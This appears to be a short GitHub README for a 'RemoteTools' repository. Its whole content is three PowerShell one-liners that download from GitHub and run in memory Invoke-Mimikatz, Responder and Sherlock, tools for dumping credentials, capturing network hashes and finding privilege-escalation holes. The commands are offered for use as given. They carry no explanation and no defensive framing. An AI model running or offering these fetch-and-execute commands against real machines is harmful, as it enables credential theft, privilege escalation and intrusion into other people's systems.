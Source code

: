 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')
